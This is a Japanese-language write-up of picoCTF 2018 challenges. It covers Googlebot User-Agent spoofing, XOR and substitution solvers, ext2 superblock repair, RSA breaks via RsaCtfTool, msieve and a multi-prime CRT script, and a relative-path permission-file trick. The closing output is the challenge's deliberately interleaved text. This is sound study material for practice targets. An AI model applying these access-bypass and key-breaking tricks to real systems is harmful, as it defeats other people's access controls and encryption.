`picoCTF{n0l0g0n_n0_pr0bl3m_50e16a5c}`

# Secret Agent
HTTPにおいてアクセス元のクライアントが何者であるか、User-agentというヘッダにより送信することができる。
[User Agent Switcher](https://chrome.google.com/webstore/detail/user-agent-switcher-for-c/djflhoibgkdhkhhcedjiklpkjnoahfmg)というchrome拡張を使って、User-agentを偽装してアクセスする。User-agentをGooglebotのそれである`Mozilla/5.0(compatible;Googlebot/2.1;+http://www.google.com/bot.html)`に変更してアクセスすると、フラグが得られる。


`picoCTF{s3cr3t_ag3nt_m4n_134ecd62}`

# Truly an Artist
メタ情報最高！
```
$ strings ./2018.png | grep pico
picoCTF{look_in_image_7e31505f}
```

# quackme
Reversingは専門外なんですけど、何故かやりました。取り敢えずアセンブリに変換して読み進めると、`do_magic`という怪しい関数を発見します。更に、`sekrutBuffer`という怪しいバッファも発見しました。ここで、チームメイトの`eiya`君の発言が問題の解決に繋がりました。

なるほどねー、別の言語に翻訳すればいいのねー！
```java
public class Solver {

    private static final String GREETING = "You have now entered the Duck Web, and you're in for a honkin' good time.\nCan you figure out my trick?";
    private static final int[] MESSAGE = {0x29, 0x06, 0x16, 0x4f, 0x2b, 0x35, 0x30, 0x1e, 0x51, 0x1b, 0x5b, 0x14, 0x4b, 0x08, 0x5d, 0x2b, 0x53, 0x10, 0x54, 0x51, 0x43, 0x4d, 0x5c, 0x54, 0x5d};

    public static void main(String[] args) {
        for (int i = 0; i < 25; i++) {
            System.out.print((char) (GREETING.charAt(i) ^ MESSAGE[i]));
        }
    }
}
```
結果から言うと、`GREETING MESSAGE`と例の謎のバッファのXORを取ったものがフラグになっていました。
```
picoCTF{qu4ckm3_6b15c941}
Process finished with exit code 0
```

# quackme up
これもReversing問題ですが、Reversing問題が嫌いなmikit君はCrypto的に解きました。
取り敢えずは問題で指定されたプログラムを実行します。
```
m1kit@pico-2018-shell-2:/problems/quackme-up_3_censored$ ./main
We're moving along swimmingly. Is this one too fowl for you?
Enter text to encrypt: 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}       
Here's your ciphertext: 15 05 35 25 55 45 75 65 95 85 00 30 20 50 40 70 60 90 80 B0 A0 D0 C0 F0 E0 11 01 31 21 51 41 71 61 91 81 B1 02 32 22 52 42 72 62 92 82 B2 A2 D2 C2 F2 E2 13 03 33 23 53 43 73 63 93 83 B3 E3 C4 A1 C1
Now quack it! : 11 80 20 E0 22 53 72 A1 01 41 55 20 A0 C0 25 E3 95 20 15 35 20 15 00 70 C1
That's all folks.
```
プログラムは入力を受け取った後に、何らかの暗号化を施して出力しているようです。いくつかの入力を試すうちに、次の法則性があることがわかりました。

- 同じ入力に対しては常に同じ出力が出る
- 出力は入力の同位置の文字にしか依存しない

要するに、ただの換字式暗号ということです。上で`0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}`という文字列に含まれる文字がそれぞれどの数字に対応付けられているかわかっていますから、逆置換を行えば良いだけとわかります。ということで、次のようなソルバを書けばフラグを得られます。

<details><summary>java</summary>

```java
public class QuackmeUp {

    private static final String PLAINTEXT = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}";
    private static int[] CIPHER = {
            0x15, 0x05, 0x35, 0x25, 0x55, 0x45, 0x75, 0x65, 0x95, 0x85, 0x00, 0x30, 0x20, 0x50, 0x40, 0x70, 0x60, 0x90, 0x80, 0xB0, 0xA0, 0xD0, 0xC0, 0xF0, 0xE0, 0x11, 0x01, 0x31, 0x21, 0x51, 0x41, 0x71, 0x61, 0x91, 0x81, 0xB1, 0x02, 0x32, 0x22, 0x52, 0x42, 0x72, 0x62, 0x92, 0x82, 0xB2, 0xA2, 0xD2, 0xC2, 0xF2, 0xE2, 0x13, 0x03, 0x33, 0x23, 0x53, 0x43, 0x73, 0x63, 0x93, 0x83, 0xB3, 0xE3, 0xC4, 0xA1, 0xC1
    };
    private static int[] TARGET = {
            0x11, 0x80, 0x20, 0xE0, 0x22, 0x53, 0x72, 0xA1, 0x01, 0x41, 0x55, 0x20, 0xA0, 0xC0, 0x25, 0xE3, 0x95, 0x20, 0x15, 0x35, 0x20, 0x15, 0x00, 0x70, 0xC1
    };

    public static void main(String[] args) {
        for (int t : TARGET) {
            for (int i = 0; i < CIPHER.length; i++) {
                if (t == CIPHER[i]) {
                    System.out.print(PLAINTEXT.charAt(i));
                    continue;
                }
            }
        }
    }
}
```

</details>

```
picoCTF{qu4ckm3_8c02c0af}
Process finished with exit code 0
```

# Ext Super Magic
ファイルを開こうとすると、壊れていると表示される。メッセージをよく見ると、Superblockが破損しているということだが、何を持って破損と判定しているのだろうか？[Hintにあるドキュメント](http://www.nongnu.org/ext2-doc/ext2.html)をよく読むと、[Magic Number](http://www.nongnu.org/ext2-doc/ext2.html#S-MAGIC)という物を格納する領域がある。この領域は内容物に依らず`0xEF53`で常に固定されており、これ以外の値が挿入されている場合はデータが破損しているという判定が行われるとだろう。ということで、問題のファイルを見てみると案の定その領域が`0x0000`になってしまっているので、今度こそバイナリエディタを使って`0xEF53`に戻してあげると、復旧することができた。イメージの内容物は以下の画像で、上部にフラグが記載されている。


ちなみにフラグは大文字と小文字が混在していてとても見辛かった。

`picoCTF{FDBfbC6141e7F4b8c90C9aE78b963aEf}`

# Lying Out
平常時のネットワークトラフィックのグラフが渡されるので、`netcat`経由で送られるデータの中で画像よりも明らかに多いトラフィックを記録している時間帯のログIDを答えるだけの問題。面倒だけど解説するようなことも何もない...


<details><summary>shell</summary>

```
You'll need to consult the file `traffic.png` to answer the following questions.


Which of these logs have significantly higher traffic than is usual for their time of day? You can see usual traffic on the attached plot. There may be multiple logs with higher than usual traffic, so answer all of them! Give your answer as a list of `log_ID` values separated by spaces. For example, if you want to answer that logs 2 and 7 are the ones with higher than usual traffic, type 2 7.
    log_ID      time  num_IPs
0        0  01:45:00    11614
1        1  03:15:00    11610
2        2  03:15:00     9725
3        3  05:00:00    10231
4        4  07:30:00    10663
5        5  10:30:00     9498
6        6  11:00:00    10333
7        7  11:30:00    16944
8        8  14:15:00    11615
9        9  16:30:00    10266
10      10  16:45:00    10690
11      11  18:30:00    14450
12      12  19:45:00    10498
13      13  22:15:00     9914
0 1 7 8 
Correct!


Great job. You've earned the flag: picoCTF{w4y_0ut_940df760}
```

</details>

# Safe RSA 
問題文でRSA暗号の各値が与えられる。
```
N: 374159235470172130988938196520880526947952521620932362050308663243595788308583992120881359365258949723819911758198013202644666489247987314025169670926273213367237020188587742716017314320191350666762541039238241984934473188656610615918474673963331992408750047451253205158436452814354564283003696666945950908549197175404580533132142111356931324330631843602412540295482841975783884766801266552337129105407869020730226041538750535628619717708838029286366761470986056335230171148734027536820544543251801093230809186222940806718221638845816521738601843083746103374974120575519418797642878012234163709518203946599836959811
e: 3

ciphertext (c): 2205316413931134031046440767620541984801091216351222789180535786851451917462804449135087209259828503848304180574549372616172217553002988241140344023060716738565104171296716554122734607654513009667720334889869007276287692856645210293194853 
```
こういう時は[RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)が便利。
```
$ ./RsaCtfTool.py -n 374159235470172130988938196520880526947952521620932362050308663243595788308583992120881359365258949723819911758198013202644666489247987314025169670926273213367237020188587742716017314320191350666762541039238241984934473188656610615918474673963331992408750047451253205158436452814354564283003696666945950908549197175404580533132142111356931324330631843602412540295482841975783884766801266552337129105407869020730226041538750535628619717708838029286366761470986056335230171148734027536820544543251801093230809186222940806718221638845816521738601843083746103374974120575519418797642878012234163709518203946599836959811 -e 3 --uncipher 2205316413931134031046440767620541984801091216351222789180535786851451917462804449135087209259828503848304180574549372616172217553002988241140344023060716738565104171296716554122734607654513009667720334889869007276287692856645210293194853
[+] Clear text : b'picoCTF{e_w4y_t00_sm411_34096259}'
```

# Super Safe RSA
今回はnetcat経由で問題が与えられる。
```
$ nc 2018shell2.picoctf.com ポート番号
c: 21479737233855220657029126470303207918504478657694669298000364329127614377463476
n: 23409538579885669705645563513862320941065628935201990831636671584732517516033107
e: 65537
```
便利なツールを前にすれば解法は変わらない...と思ったんですけど、素因数分解の性能がさっきのツールだと悪いので素因数分解だけ[msieve](https://sourceforge.net/projects/msieve/)に投げます。

<details><summary>log</summary>

```
Sat Oct 13 14:30:30 2018  
Sat Oct 13 14:30:30 2018  
Sat Oct 13 14:30:30 2018  Msieve v. 1.52 (SVN unknown)
Sat Oct 13 14:30:30 2018  random seeds: b135d3d6 deb663fa
Sat Oct 13 14:30:30 2018  factoring 23409538579885669705645563513862320941065628935201990831636671584732517516033107 (80 digits)
Sat Oct 13 14:30:30 2018  searching for 15-digit factors
Sat Oct 13 14:30:30 2018  commencing quadratic sieve (80-digit input)
Sat Oct 13 14:30:30 2018  using multiplier of 2
Sat Oct 13 14:30:30 2018  using generic 32kb sieve core
Sat Oct 13 14:30:30 2018  sieve interval: 12 blocks of size 32768
Sat Oct 13 14:30:30 2018  processing polynomials in batches of 17
Sat Oct 13 14:30:30 2018  using a sieve bound of 1224943 (47189 primes)
Sat Oct 13 14:30:30 2018  using large prime bound of 122494300 (26 bits)
Sat Oct 13 14:30:30 2018  using trial factoring cutoff of 27 bits
Sat Oct 13 14:30:30 2018  polynomial 'A' values have 10 factors
Sat Oct 13 14:34:13 2018  47547 relations (25236 full + 22311 combined from 251329 partial), need 47285
Sat Oct 13 14:34:13 2018  begin with 276565 relations
Sat Oct 13 14:34:13 2018  reduce to 67059 relations in 2 passes
Sat Oct 13 14:34:13 2018  attempting to read 67059 relations
Sat Oct 13 14:34:13 2018  recovered 67059 relations
Sat Oct 13 14:34:13 2018  recovered 52977 polynomials
Sat Oct 13 14:34:13 2018  attempting to build 47547 cycles
Sat Oct 13 14:34:13 2018  found 47547 cycles in 1 passes
Sat Oct 13 14:34:13 2018  distribution of cycle lengths:
Sat Oct 13 14:34:14 2018     length 1 : 25236
Sat Oct 13 14:34:14 2018     length 2 : 22311
Sat Oct 13 14:34:14 2018  largest cycle: 2 relations
Sat Oct 13 14:34:14 2018  matrix is 47189 x 47547 (7.0 MB) with weight 1459254 (30.69/col)
Sat Oct 13 14:34:14 2018  sparse part has weight 1459254 (30.69/col)
Sat Oct 13 14:34:14 2018  filtering completed in 3 passes
Sat Oct 13 14:34:14 2018  matrix is 32411 x 32471 (5.3 MB) with weight 1117386 (34.41/col)
Sat Oct 13 14:34:14 2018  sparse part has weight 1117386 (34.41/col)
Sat Oct 13 14:34:14 2018  saving the first 48 matrix rows for later
Sat Oct 13 14:34:14 2018  matrix includes 64 packed rows
Sat Oct 13 14:34:14 2018  matrix is 32363 x 32471 (3.6 MB) with weight 831555 (25.61/col)
Sat Oct 13 14:34:14 2018  sparse part has weight 611581 (18.83/col)
Sat Oct 13 14:34:14 2018  using block size 8192 and superblock size 786432 for processor cache size 8192 kB
Sat Oct 13 14:34:14 2018  commencing Lanczos iteration
Sat Oct 13 14:34:14 2018  memory use: 2.1 MB
Sat Oct 13 14:34:15 2018  lanczos halted after 513 iterations (dim = 32354)
Sat Oct 13 14:34:15 2018  recovered 13 nontrivial dependencies
Sat Oct 13 14:34:15 2018  prp39 factor: 137031815558492785416368033228400597191
Sat Oct 13 14:34:15 2018  prp42 factor: 170832871800440965429378408662331075603477
Sat Oct 13 14:34:15 2018  elapsed time 00:03:45
```

</details>

`n`の素因数`p`と`q`が4分弱の計算でわかりましたね。
今回は`p=137031815558492785416368033228400597191`、`q=170832871800440965429378408662331075603477`のようです。あとはさっきと同じ感じで。
```
$ ./RsaCtfTool.py -n 23409538579885669705645563513862320941065628935201990831636671584732517516033107 -e 65537 --uncipher 21479737233855220657029126470303207918504478657694669298000364329127614377463476 -p 137031815558492785416368033228400597191 -q 170832871800440965429378408662331075603477
[+] Clear text : b'picoCTF{us3_l@rg3r_pr1m3$_2461}'
```
# Super Safe RSA 2
今回も`netcat`経由で問題が送られてきます。
```
$ nc 2018shell2.picoctf.com ポート番号
c: 106538392747822460592796230432256283020915444748983035171111150078885196891160377503050459865930224462150387256675033205684214748558489741152827294286580591700117333648964180814440867372751843167694021449253296533436850763226487946427603433085998384074138653260218169018085693870924503924139970737568896146356
n: 115611780537826480280428674588586140326663012945725398245878844265969831296494653747241865386452615273346296226579664147257320976896660727954957466986838285391321837848998841233127568874517709671876808622821719252989403622582393526233971216536637831295293656781882335071118252985516339614702914766600048314301
e: 57552746388247690909699643078758912189410268967976732498768593224854139586006959099497472545783550868866791497812862090182188639566253509460770059057411818491551608313734332746811150168077638571657245215992252145195635852551145050662952787160000511060768525026869998404256861123682690093870342493116452573473
```
色々値がでけえな。まあ取り敢えず例のツールに放り込むと...
```
$ ./RsaCtfTool.py -n 115611780537826480280428674588586140326663012945725398245878844265969831296494653747241865386452615273346296226579664147257320976896660727954957466986838285391321837848998841233127568874517709671876808622821719252989403622582393526233971216536637831295293656781882335071118252985516339614702914766600048314301 -e 57552746388247690909699643078758912189410268967976732498768593224854139586006959099497472545783550868866791497812862090182188639566253509460770059057411818491551608313734332746811150168077638571657245215992252145195635852551145050662952787160000511060768525026869998404256861123682690093870342493116452573473 --uncipher 106538392747822460592796230432256283020915444748983035171111150078885196891160377503050459865930224462150387256675033205684214748558489741152827294286580591700117333648964180814440867372751843167694021449253296533436850763226487946427603433085998384074138653260218169018085693870924503924139970737568896146356
[+] Clear text : b'picoCTF{w@tch_y0ur_Xp0n3nt$_c@r3fu11y_5495627}'
```
今回は面倒な前処理が要りませんでしたね。

# Super Safe RSA 3
またもや`netcat`経由。
```
c: 3305002556892092425017932057561304674200579614066973332503459576951097810669465844418229791168949965006936418675830659093505745824812940298741314481241004181343654691322523030220669176422414546251690408191465798433017621027269290696956657647307880547159672800432208472735393783203463489784857021198292310
n: 7842963859010071232839177723492387484553923972250418941173974931624642562195515146678102113432888521849051509904886644372869513826235033080130538882884881269880189225941717274153392603811958333790745819268983999470037050631582269350956393807024970171772283227868299358228556327305439137287503257921872819
e: 65537
```
問題文から、Multi-prime RSA問題であると推測できます。さっきまでお世話になったツールはMulti-prime RSAには対応していないので、今回は別の方法を使うしかありません...

検索してみると[「Multi-prime RSAを復号してみる（Hack The Vote 2016 The Best RSA）」](http://inaz2.hatenablog.com/entry/2016/12/09/001335)といういい感じの記事がありました。前段階として素因数分解はしておけとのことだったので、[msieve](https://sourceforge.net/projects/msieve/)に素因数分解をさせましょう。

<details><summary>log</summary>

```
Sat Oct 13 14:45:04 2018  
Sat Oct 13 14:45:04 2018  
Sat Oct 13 14:45:04 2018  Msieve v. 1.52 (SVN unknown)
Sat Oct 13 14:45:04 2018  random seeds: 5aeefbc5 e0455861
Sat Oct 13 14:45:04 2018  factoring 7842963859010071232839177723492387484553923972250418941173974931624642562195515146678102113432888521849051509904886644372869513826235033080130538882884881269880189225941717274153392603811958333790745819268983999470037050631582269350956393807024970171772283227868299358228556327305439137287503257921872819 (304 digits)
Sat Oct 13 14:45:05 2018  searching for 15-digit factors
Sat Oct 13 14:45:05 2018  P-1 stage 1 factor found
Sat Oct 13 14:45:05 2018  P+1 stage 1 factor found
Sat Oct 13 14:45:05 2018  ECM stage 2 factor found
Sat Oct 13 14:45:05 2018  ECM stage 1 factor found
Sat Oct 13 14:45:05 2018  ECM stage 2 factor found
Sat Oct 13 14:45:05 2018  ECM stage 2 factor found
Sat Oct 13 14:45:05 2018  ECM stage 1 factor found
Sat Oct 13 14:45:05 2018  ECM stage 2 factor found
Sat Oct 13 14:45:05 2018  ECM stage 2 factor found
Sat Oct 13 14:45:05 2018  commencing quadratic sieve (29-digit input)
Sat Oct 13 14:45:05 2018  using multiplier of 1
Sat Oct 13 14:45:05 2018  using generic 32kb sieve core
Sat Oct 13 14:45:05 2018  sieve interval: 4 blocks of size 32768
Sat Oct 13 14:45:05 2018  processing polynomials in batches of 51
Sat Oct 13 14:45:05 2018  using a sieve bound of 3779 (275 primes)
Sat Oct 13 14:45:05 2018  using large prime bound of 151160 (17 bits)
Sat Oct 13 14:45:05 2018  polynomial 'A' values have 3 factors
Sat Oct 13 14:45:05 2018  908 relations (348 full + 560 combined from 2330 partial), need 371
Sat Oct 13 14:45:05 2018  begin with 2678 relations
Sat Oct 13 14:45:05 2018  reduce to 1314 relations in 2 passes
Sat Oct 13 14:45:05 2018  attempting to read 1314 relations
Sat Oct 13 14:45:05 2018  recovered 1314 relations
Sat Oct 13 14:45:05 2018  recovered 8 polynomials
Sat Oct 13 14:45:05 2018  attempting to build 908 cycles
Sat Oct 13 14:45:05 2018  found 908 cycles in 1 passes
Sat Oct 13 14:45:05 2018  distribution of cycle lengths:
Sat Oct 13 14:45:05 2018     length 1 : 348
Sat Oct 13 14:45:05 2018     length 2 : 560
Sat Oct 13 14:45:05 2018  largest cycle: 2 relations
Sat Oct 13 14:45:05 2018  matrix is 275 x 908 (0.1 MB) with weight 11991 (13.21/col)
Sat Oct 13 14:45:05 2018  sparse part has weight 11991 (13.21/col)
Sat Oct 13 14:45:05 2018  filtering completed in 1 passes
Sat Oct 13 14:45:05 2018  matrix is 275 x 339 (0.0 MB) with weight 3485 (10.28/col)
Sat Oct 13 14:45:05 2018  sparse part has weight 3485 (10.28/col)
Sat Oct 13 14:45:05 2018  commencing Lanczos iteration
Sat Oct 13 14:45:05 2018  memory use: 0.0 MB
Sat Oct 13 14:45:05 2018  lanczos halted after 6 iterations (dim = 270)
Sat Oct 13 14:45:05 2018  recovered 64 nontrivial dependencies
Sat Oct 13 14:45:05 2018  commencing quadratic sieve (29-digit input)
Sat Oct 13 14:45:05 2018  using multiplier of 5
Sat Oct 13 14:45:05 2018  using generic 32kb sieve core
Sat Oct 13 14:45:05 2018  sieve interval: 4 blocks of size 32768
Sat Oct 13 14:45:05 2018  processing polynomials in batches of 51
Sat Oct 13 14:45:05 2018  using a sieve bound of 4027 (275 primes)
Sat Oct 13 14:45:05 2018  using large prime bound of 161080 (17 bits)
Sat Oct 13 14:45:05 2018  polynomial 'A' values have 3 factors
Sat Oct 13 14:45:05 2018  501 relations (252 full + 249 combined from 1565 partial), need 371
Sat Oct 13 14:45:05 2018  begin with 1817 relations
Sat Oct 13 14:45:05 2018  reduce to 705 relations in 2 passes
Sat Oct 13 14:45:05 2018  attempting to read 705 relations
Sat Oct 13 14:45:05 2018  recovered 705 relations
Sat Oct 13 14:45:05 2018  recovered 8 polynomials
Sat Oct 13 14:45:05 2018  attempting to build 501 cycles
Sat Oct 13 14:45:05 2018  found 501 cycles in 1 passes
Sat Oct 13 14:45:05 2018  distribution of cycle lengths:
Sat Oct 13 14:45:05 2018     length 1 : 252
Sat Oct 13 14:45:05 2018     length 2 : 249
Sat Oct 13 14:45:05 2018  largest cycle: 2 relations
Sat Oct 13 14:45:05 2018  matrix is 275 x 501 (0.0 MB) with weight 6518 (13.01/col)
Sat Oct 13 14:45:05 2018  sparse part has weight 6518 (13.01/col)
Sat Oct 13 14:45:05 2018  filtering completed in 3 passes
Sat Oct 13 14:45:05 2018  matrix is 262 x 326 (0.0 MB) with weight 3624 (11.12/col)
Sat Oct 13 14:45:05 2018  sparse part has weight 3624 (11.12/col)
Sat Oct 13 14:45:05 2018  commencing Lanczos iteration
Sat Oct 13 14:45:05 2018  memory use: 0.0 MB
Sat Oct 13 14:45:05 2018  lanczos halted after 6 iterations (dim = 258)
Sat Oct 13 14:45:05 2018  recovered 63 nontrivial dependencies
Sat Oct 13 14:45:05 2018  p10 factor: 2170377211
Sat Oct 13 14:45:05 2018  p10 factor: 2222727523
Sat Oct 13 14:45:05 2018  p10 factor: 2232925829
Sat Oct 13 14:45:05 2018  p10 factor: 2245950743
Sat Oct 13 14:45:05 2018  p10 factor: 2422623079
Sat Oct 13 14:45:05 2018  p10 factor: 2599060241
Sat Oct 13 14:45:05 2018  p10 factor: 2604940139
Sat Oct 13 14:45:05 2018  p10 factor: 2630293189
Sat Oct 13 14:45:05 2018  p10 factor: 2672337673
Sat Oct 13 14:45:05 2018  p10 factor: 2766371749
Sat Oct 13 14:45:05 2018  p10 factor: 2844982067
Sat Oct 13 14:45:05 2018  p10 factor: 2952592289
Sat Oct 13 14:45:05 2018  p10 factor: 3028806631
Sat Oct 13 14:45:05 2018  p10 factor: 3059515801
Sat Oct 13 14:45:05 2018  p10 factor: 3135590701
Sat Oct 13 14:45:05 2018  p10 factor: 3224302517
Sat Oct 13 14:45:05 2018  p10 factor: 3225343903
Sat Oct 13 14:45:05 2018  p10 factor: 3335109389
Sat Oct 13 14:45:05 2018  p10 factor: 3341895631
Sat Oct 13 14:45:05 2018  p10 factor: 3367539067
Sat Oct 13 14:45:05 2018  p10 factor: 3386558629
Sat Oct 13 14:45:05 2018  p10 factor: 3496561543
Sat Oct 13 14:45:05 2018  p10 factor: 3615146231
Sat Oct 13 14:45:05 2018  p10 factor: 3838855673
Sat Oct 13 14:45:05 2018  p10 factor: 3862394629
Sat Oct 13 14:45:05 2018  p10 factor: 3862640009
Sat Oct 13 14:45:05 2018  p10 factor: 3965013209
Sat Oct 13 14:45:05 2018  p10 factor: 3982293257
Sat Oct 13 14:45:05 2018  p10 factor: 4043964649
Sat Oct 13 14:45:05 2018  p10 factor: 4056018203
Sat Oct 13 14:45:05 2018  p10 factor: 4096857593
Sat Oct 13 14:45:05 2018  p10 factor: 4101284669
Sat Oct 13 14:45:05 2018  elapsed time 00:00:01
```

</details>

ということで、素因数は以下の32個であることがわかりました。

<details><summary>primes</summary>

```
p1=2170377211
p2=2222727523
p3=2232925829
p4=2245950743
p5=2422623079
p6=2599060241
p7=2604940139
p8=2630293189
p9=2672337673
p10=2766371749
p11=2844982067
p12=2952592289
p13=3028806631
p14=3059515801
p15=3135590701
p16=3224302517
p17=3225343903
p18=3335109389
p19=3341895631
p20=3367539067
p21=3386558629
p22=3496561543
p23=3615146231
p24=3838855673
p25=3862394629
p26=3862640009
p27=3965013209
p28=3982293257
p29=4043964649
p30=4056018203
p31=4096857593
p32=4101284669
```

</details>

これを先ほどのページのソルバに反映させます。

<details><summary>python</summary>

```python
# Originally obtained from http://inaz2.hatenablog.com/entry/2016/12/09/001335

# solve.py
import gmpy


c = 3305002556892092425017932057561304674200579614066973332503459576951097810669465844418229791168949965006936418675830659093505745824812940298741314481241004181343654691322523030220669176422414546251690408191465798433017621027269290696956657647307880547159672800432208472735393783203463489784857021198292310
e = 65537
divisors = [(2170377211, 1), (2222727523, 1), (2232925829, 1), (2245950743, 1), (2422623079, 1), (2599060241, 1), (2604940139, 1), (2630293189, 1), (2672337673, 1), (2766371749, 1), (2844982067, 1), (2952592289, 1), (3028806631, 1), (3059515801, 1), (3135590701, 1), (3224302517, 1), (3225343903, 1), (3335109389, 1), (3341895631, 1), (3367539067, 1), (3386558629, 1), (3496561543, 1), (3615146231, 1), (3838855673, 1), (3862394629, 1), (3862640009, 1), (3965013209, 1), (3982293257, 1), (4043964649, 1), (4056018203, 1), (4096857593, 1), (4101284669, 1)]

# https://en.wikipedia.org/wiki/Euler%27s_totient_function
n_ary = []
a_ary = []
for p, k in divisors:
    pk = p ** k
    phi = pk * (p-1)/p
    d = gmpy.invert(e, phi)
    mk = pow(c, d, pk)
    n_ary.append(pk)
    a_ary.append(mk)

# http://rosettacode.org/wiki/Chinese_remainder_theorem#Python
def chinese_remainder(n, a):
    sum = 0
    prod = reduce(lambda a, b: a*b, n)

    for n_i, a_i in zip(n, a):
        p = prod / n_i
        sum += a_i * gmpy.invert(p, n_i) * p
    return sum % prod

m = chinese_remainder(n_ary, a_ary)
m = "%x" % m
print m.decode('hex')
```

</details>

```
$ python ./rsa.py
picoCTF{p_&_q_n0_r_$_t!!_3620762}
```

# What's My Name?
Wireshark最高！
```
$ strings ./myname.pcap | grep pico
76picoCTF{w4lt3r_wh1t3_033ad0f914a0b9d213bcc3ce5566038b}
```

# absolutely relative
提示されたソースコードは以下のようになっている。

<details><summary>c</summary>

```c
#include <stdio.h>
#include <string.h>

#define yes_len 3
const char *yes = "yes";

int main()
{
    char flag[99];
    char permission[10];
    int i;
    FILE * file;


    file = fopen("/problems/absolutely-relative_1_15eb86fcf5d05ec169cc417d24e02c87/flag.txt" , "r");
    if (file) {
    	while (fscanf(file, "%s", flag)!=EOF)
    	fclose(file);
    }   
	
    file = fopen( "./permission.txt" , "r");
    if (file) {
    	for (i = 0; i < 5; i++){
            fscanf(file, "%s", permission);
        }
        permission[5] = '\0';
        fclose(file);
    }
    
    if (!strncmp(permission, yes, yes_len)) {
        printf("You have the write permissions.\n%s\n", flag);
    } else {
        printf("You do not have sufficient permissions to view the flag.\n");
    }
    
    return 0;
}
```


</details>

着目すべきは、`flag.txt`は絶対パス表記であるにも関わらず`permission.txt`は相対パス表記になっているということだ。
相対パス表記の場合、基本的には`pwd`コマンドの結果のディレクトリから相対的にパスが解決される。そこで、`permission.txt`をホームディレクトリ直下に作成し、`yes`と記入しておく。その後、ホームディレクトリから絶対パス表記でプログラムを呼び出すと、ホームディレクトリに作成した`permission.txt`を参照しながらにして`flag.txt`は本来のものを参照させることができる。

```
m1kit@pico-2018-shell-2:~$ echo 'yes                      ' > permission.txt
m1kit@pico-2018-shell-2:~$ /problems/absolutely-relative_1_censored/absolutely-relative 
You have the write permissions.
picoCTF{3v3r1ng_1$_r3l3t1v3_a97be50e}
```

# in out error
取り敢えず指定されたプログラムを実行すると、`Please may I have the flag?`と標準入力に書き込むよう要求される。

<details><summary>shell</summary>

```
m1kit@pico-2018-shell-2:/problems/in-out-error_3_censored$ ./in-out-error 
Hey There!
If you want the flag you have to ask nicely for it.
Enter the phrase "Please may I have the flag?" into stdin and you shall receive.
Please may I have the flag?
Thank you for asking so nicely!

pWiec'orCeT Fn{op 1spt1rnagn_g1eSr_s4 _t7oh 1lnogv_e4
3Y7obu5 ck8n8o}wp itchoeC TrFu{lpe1sp 1anngd_ 1sSo_ 4d_o7 hI1
nAg _f4u3l7lb 5cco8m8m}iptimceonCtT'Fs{ pw1hpa1tn gI_'1mS _t4h_i7nhk1inngg_ 4o3f7
bY5ocu8 8w}opuilcdonC'TtF {gpe1tp 1tnhgi_s1 Sf_r4o_m7 ha1nnyg _o4t3h7ebr5 cg8u8y}
p
iIc ojCuTsFt{ pw1apn1nnag _t1eSl_l4 _y7ohu1 nhgo_w4 3I7'bm5 cf8e8e}lpiincgo
CGToFt{tpa1 pm1ankge_ 1ySo_u4 _u7nhd1enrgs_t4a3n7db
5
cN8e8v}epri cgooCnTnFa{ pg1ipv1en gy_o1uS _u4p_
7Nhe1vnegr_ 4g3o7nbn5ac 8l8e}tp iycoouC TdFo{wpn1
pN1envge_r1 Sg_o4n_n7ah 1rnugn_ 4a3r7obu5ncd8 8a}npdi cdoeCsTeFr{tp 1ypo1un
gN_e1vSe_r4 _g7ohn1nnag _m4a3k7eb 5yco8u8 }cpriyc
oNCeTvFe{rp 1gpo1nnnga_ 1sSa_y4 _g7oho1dnbgy_e4
3N7ebv5ecr8 8g}opnincao CtTeFl{lp 1ap 1lnige_ 1aSn_d4 _h7uhr1tn gy_o4u3
7
bW5ec'8v8e} pkincoowCnT Fe{apc1hp 1ontgh_e1rS _f4o_r7 hs1on gl_o4n3g7
bY5ocu8r8 }hpeiacrotC'TsF {bpe1epn1 nagc_h1iSn_g4,_ 7bhu1tn
gY_o4u3'7rbe5 ct8o8o} psihcyo CtToF {spa1yp 1intg
_I1nSs_i4d_e7,h 1wneg _b4o3t7hb 5kcn8o8w} pwihcaotC'TsF {bpe1epn1 nggo_i1nSg_ 4o_n7
hW1en gk_n4o3w7 bt5hce8 8g}apmiec oaCnTdF {wpe1'pr1en gg_o1nSn_a4 _p7lha1yn gi_t4
3
7Abn5dc 8i8f} pyiocuo CaTsFk{ pm1ep 1hnogw_ 1IS'_m4 _f7ehe1lnign_g4
3D7obn5'ct8 8t}eplilc omCeT Fy{opu1'pr1en gt_o1oS _b4l_i7nhd1 ntgo_ 4s3e7eb
5
cN8e8v}epri cgooCnTnFa{ pg1ipv1en gy_o1uS _u4p_
7Nhe1vnegr_ 4g3o7nbn5ac 8l8e}tp iycoouC TdFo{wpn1
pN1envge_r1 Sg_o4n_n7ah 1rnugn_ 4a3r7obu5ncd8 8a}npdi cdoeCsTeFr{tp 1ypo1un
gN_e1vSe_r4 _g7ohn1nnag _m4a3k7eb 5yco8u8 }cpriyc
oNCeTvFe{rp 1gpo1nnnga_ 1sSa_y4 _g7oho1dnbgy_e4
3N7ebv5ecr8 8g}opnincao CtTeFl{lp 1ap 1lnige_ 1aSn_d4 _h7uhr1tn gy_o4u3
7
bN5ecv8e8r} pgiocnonCaT Fg{ipv1ep 1ynogu_ 1uSp_
4N_e7vhe1rn gg_o4n3n7ab 5lce8t8 }ypoiuc odCoTwFn{
pN1epv1enrg _g1oSn_n4a_ 7rhu1nn ga_r4o3u7nbd5 ca8n8d} pdiecsoeCrTtF {ypo1up
1Nnegv_e1rS _g4o_n7nha1 nmga_k4e3 7ybo5uc 8c8r}yp
iNceovCeTrF {gpo1npn1an gs_a1yS _g4o_o7dhb1yneg
_N4e3v7ebr5 cg8o8n}npai ctoeClTlF {ap 1lpi1en ga_n1dS _h4u_r7th 1ynogu_
4(3O7obh5,c 8g8i}vpei cyooCuT Fu{pp)1
p(1Onogh_,1 Sg_i4v_e7 hy1onug _u4p3)7
bN5ecv8e8r} pgiocnonCaT Fg{ipv1ep,1 nnge_v1eSr_ 4g_o7nhn1an gg_i4v3e7
b(5Gci8v8e} pyiocuo CuTpF){
pN1epv1enrg _g1oSn_n4a_ 7ghi1vneg,_ 4n3e7vbe5rc 8g8o}npniac ogCiTvFe{
p(1Gpi1vneg _y1oSu_ 4u_p7)h
1
nWge_'4v3e7 bk5nco8w8n} peiaccohC ToFt{hpe1rp 1fnogr_ 1sSo_ 4l_o7nhg1
